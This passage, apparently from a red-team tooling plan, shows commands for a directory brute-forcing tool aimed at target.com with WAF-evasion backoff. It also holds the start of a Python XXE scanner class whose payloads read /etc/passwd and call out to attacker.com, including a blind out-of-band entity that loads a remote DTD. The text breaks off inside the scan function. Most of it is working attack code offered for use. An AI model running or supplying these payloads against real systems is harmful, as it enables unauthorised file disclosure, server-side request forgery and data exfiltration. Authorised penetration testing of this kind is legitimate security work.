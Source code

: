 **Enhanced Usage:**
```bash
# Recursive scan with wildcard detection
python3 /Users/noone/aios/red-team-tools/dirreaper.py \
  --url https://target.com \
  --recursive \
  --max-depth 3 \
  --extensions .php,.asp,.jsp \
  --threads 100 \
  --json

# Wildcard detection mode
python3 /Users/noone/aios/red-team-tools/dirreaper.py \
  --url https://target.com \
  --mode wildcard \
  --status-codes 200,301,302,403 \
  --output results.json
```

**New Capabilities:**
- Auto-detects wildcard responses (server returns 200 for everything)
- Filters false positives using content-length + hash analysis
- Recursive depth control (prevent infinite loops)
- Smart backoff when WAF detected

---

### 3. BelchStudio Scanner - XXE, CSRF, Deserialization, Report Export ✅

**File:** `/Users/noone/aios/tools/belchstudio.py`

**Features to Add (Quick Implementation):**

#### A. XXE (XML External Entity) Scanner

```python
# Add to BelchStudio scanner module
class XXEScanner:
    """XML External Entity injection scanner"""

    def __init__(self):
        self.payloads = [
            # File disclosure
            '<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>',
            # SSRF
            '<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://attacker.com/xxe">]><foo>&xxe;</foo>',
            # Blind XXE (OOB)
            '<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker.com/xxe.dtd">%xxe;]><foo>test</foo>'
        ]

    def scan(self, request, response):
        """Test for XXE vulnerabilities"""
        if 'xml' in request.headers.get('Content-Type', '').lower():
            results = []
            for payload in self.payloads:
                # Test payload
                test_req = copy.copy(request)
                test_req.body = payload.encode()
                resp = send_request(test_req)

                # Check for file disclosure
                if 'root:' in resp.body.decode('utf-8', errors='ignore'):
```